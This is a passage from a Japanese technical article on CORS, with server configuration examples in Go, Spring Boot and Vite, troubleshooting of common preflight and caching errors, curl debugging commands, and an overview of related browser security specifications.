			w.Header().Set("Access-Control-Allow-Headers", "Content-Type, Authorization")
			w.Header().Set("Access-Control-Max-Age", "86400")
			w.WriteHeader(http.StatusNoContent)
			return
		}

		next.ServeHTTP(w, r)
	})
}
```

### 9.4 Spring Boot (Java)

```java
// Spring Boot CORS configuration
@Configuration
public class CorsConfig implements WebMvcConfigurer {

    @Override
    public void addCorsMappings(CorsRegistry registry) {
        registry.addMapping("/api/**")
            .allowedOrigins(
                "https://app.example.com",
                "https://admin.example.com"
            )
            .allowedMethods("GET", "POST", "PUT", "DELETE", "PATCH")
            .allowedHeaders("Content-Type", "Authorization", "X-Request-ID")
            .exposedHeaders("X-Request-ID", "X-RateLimit-Remaining")
            .allowCredentials(true)
            .maxAge(86400);
    }
}
```

## 10. よくある間違いとトラブルシューティング

### 10.1 開発時によくある問題

#### 問題1: 「CORSエラーが出るのでCORSを無効化したい」

CORSを「無効化」するという発想自体が誤りである。CORSはSOPの制限を**緩和**する仕組みであり、CORSが「問題を起こしている」のではなく、SOPが正しく機能しているのである。適切な解決策は、サーバー側で正しいCORSヘッダーを設定することである。

開発時にのみ発生する問題であれば、以下のアプローチが推奨される。

- フロントエンド開発サーバーのプロキシ機能を使用する（Vite、webpack-dev-serverなど）
- 開発環境用のCORS設定をサーバーに追加する

```javascript
// Vite proxy configuration (vite.config.js)
export default defineConfig({
  server: {
    proxy: {
      "/api": {
        target: "http://localhost:8080",
        changeOrigin: true,
      },
    },
  },
});
```

#### 問題2: プリフライトリクエストへの対応忘れ

多くのWebフレームワークは `OPTIONS` メソッドをデフォルトでは処理しない。CORS対応のミドルウェアを使用していない場合、`OPTIONS` リクエストが 404 や 405 を返し、プリフライトが失敗する。

```
// Browser console error
Access to fetch at 'https://api.example.com/users' from origin 'https://app.example.com'
has been blocked by CORS policy: Response to preflight request doesn't pass
access control check: No 'Access-Control-Allow-Origin' header is present on
the requested resource.
```

#### 問題3: `Content-Type: application/json` によるプリフライトの発生

REST APIを構築する際、多くの開発者が `Content-Type: application/json` を使用するが、これは単純リクエストの条件を満たさないため、すべてのPOSTリクエストでプリフライトが発生する。これは仕様通りの動作であり、サーバー側でプリフライトに適切に応答する必要がある。

#### 問題4: `Vary: Origin` ヘッダーの設定忘れ

動的にオリジンを設定する場合に `Vary: Origin` を設定し忘れると、CDNやリバースプロキシのキャッシュが原因で、正しいオリジンからのリクエストがCORSエラーになることがある。

```
// Scenario:
// 1. Request from https://app1.example.com
//    -> Response cached with: Access-Control-Allow-Origin: https://app1.example.com
// 2. Request from https://app2.example.com
//    -> Cache returns: Access-Control-Allow-Origin: https://app1.example.com
//    -> CORS error!
```

`Vary: Origin` を設定することで、キャッシュは `Origin` ヘッダーの値ごとに別のレスポンスを保存する。

#### 問題5: リダイレクトとCORS

CORSリクエストがリダイレクト（301、302など）を返すと、ブラウザによっては問題が発生する場合がある。特にプリフライトリクエストのリダイレクトは仕様で禁止されている。APIサーバーはクロスオリジンリクエストに対してリダイレクトではなく、直接的なレスポンスを返すべきである。

### 10.2 デバッグの手順

CORSエラーのデバッグには、ブラウザの開発者ツールが必須である。

1. **Networkタブでリクエストを確認する**: プリフライトの `OPTIONS` リクエストが送信されているか、そのレスポンスコードとヘッダーは何か
2. **Consoleタブでエラーメッセージを確認する**: ブラウザはCORSエラーの原因を具体的に示してくれる
3. **リクエストヘッダーの `Origin` を確認する**: 期待するオリジンが送信されているか
4. **レスポンスヘッダーを確認する**: `Access-Control-Allow-Origin` が正しく設定されているか
5. **`curl` でサーバーの応答を直接確認する**:

```bash
# Check CORS headers for a simple request
curl -v -H "Origin: https://app.example.com" \
  https://api.example.com/users

# Check preflight response
curl -v -X OPTIONS \
  -H "Origin: https://app.example.com" \
  -H "Access-Control-Request-Method: PUT" \
  -H "Access-Control-Request-Headers: Content-Type, Authorization" \
  https://api.example.com/users
```

## 11. CORSの周辺仕様と発展

### 11.1 関連する仕様と技術

CORSは単独で機能するのではなく、Webプラットフォームのセキュリティモデル全体の中に位置づけられる。

**Content Security Policy（CSP）**: ページが読み込めるリソースのオリジンを制御するポリシー。CORSが「サーバー側がレスポンスの共有を許可する」のに対し、CSPは「クライアント側がリソースの読み込みを制限する」という逆方向の制御である。

**Fetch Metadata（Sec-Fetch-*ヘッダー）**: ブラウザがリクエストのコンテキスト情報をサーバーに送信するヘッダー群。`Sec-Fetch-Mode`、`Sec-Fetch-Site`、`Sec-Fetch-Dest` などにより、サーバーはリクエストがクロスオリジンかどうか、ナビゲーションかAPIリクエストかなどを判別できる。CORSの補完として、サーバー側でのリクエストフィルタリングに活用される。

**Cross-Origin Resource Policy（CORP）**: リソースが他のオリジンから読み込まれることを明示的に拒否するヘッダー。CORSの逆で、デフォルト許可ではなくデフォルト拒否の思想に基づく。

**Cross-Origin Opener Policy（COOP）** と **Cross-Origin Embedder Policy（COEP）**: クロスオリジンの分離を強化するための仕組みで、`SharedArrayBuffer` の使用やタイミング攻撃の緩和に必要となる。

### 11.2 Private Network Access

ブラウザベンダーは現在、Private Network Access（旧称CORS-RFC1918）という仕様の導入を進めている。これは、公開サイトからプライベートネットワーク（ローカルホストやイントラネット）へのアクセスをCORSライクなプリフライトで制御する仕組みである。

従来、公開サイトのJavaScriptから `http://localhost:8080` や `http://192.168.1.1` へのリクエストはSOPの範囲で一定の制限はあるものの、単純リクエスト（GETやPOST）は送信可能だった。Private Network Accessはこれらのリクエストにもプリフライトを要求し、内部ネットワークのデバイスやサービスを保護する。

## 12. まとめ

### 12.1 本質の理解

CORSの本質は、**Webのセキュリティモデル（SOP）と機能的要件（クロスオリジン通信）の間の調停メカニズム**である。SOPがなければWebは安全ではなく、SOPの例外がなければ現代のWebアプリケーションは機能しない。CORSはこの根本的な緊張関係に対するエンジニアリング上の回答である。

重要なポイントを整理する。

1. **CORSはブラウザの機能である**: サーバーはヘッダーで許可を宣言するが、実際の制御はブラウザが行う。`curl` やサーバーサイドからのリクエストには影響しない。

2. **CORSはSOPを無効化するのではなく、管理された例外を提供する**: デフォルトはブロックであり、サーバーの明示的な許可によってのみ緩和される。

3. **単純リクエストとプリフライトリクエストの区別は歴史的な理由に基づく**: HTMLフォームから送信可能だったリクエストは単純リクエストとして扱われ、プリフライトは省略される。

4. **認証情報付きリクエストにはワイルドカードが使用できない**: これはセキュリティ上の重要な制約であり、意図的に「回避」してはならない。

5. **CORSだけではWebアプリケーションのセキュリティは完結しない**: CSRF対策、XSS対策、適切な認証・認可メカニズムと組み合わせて初めて堅牢なセキュリティが実現される。

### 12.2 設計思想の教訓

CORSの設計から学べる重要な教訓がある。それは、**後方互換性を維持しながらセキュリティモデルを拡張することの難しさ**である。プリフライトリクエストの存在理由——CORS以前のサーバーを保護するため——は、既存のシステムとの互換性を保ちながら新しいセキュリティメカニズムを導入する際の典型的なアプローチを示している。

また、**セキュリティは協調的なプロセスである**という点も重要である。CORSはブラウザとサーバーの協調によって初めて機能する。どちらか一方だけでは完全なセキュリティは実現できない。この協調モデルは、Webセキュリティの他の領域（CSP、Fetch Metadata、Cookieの属性など）にも共通する設計パターンである。

CORSは一見複雑に思えるが、その複雑さの多くは歴史的な経緯と後方互換性の要件に起因している。本質を理解すれば、日々の開発で遭遇するCORSエラーの原因を迅速に特定し、適切な対処を行うことができるようになるだろう。
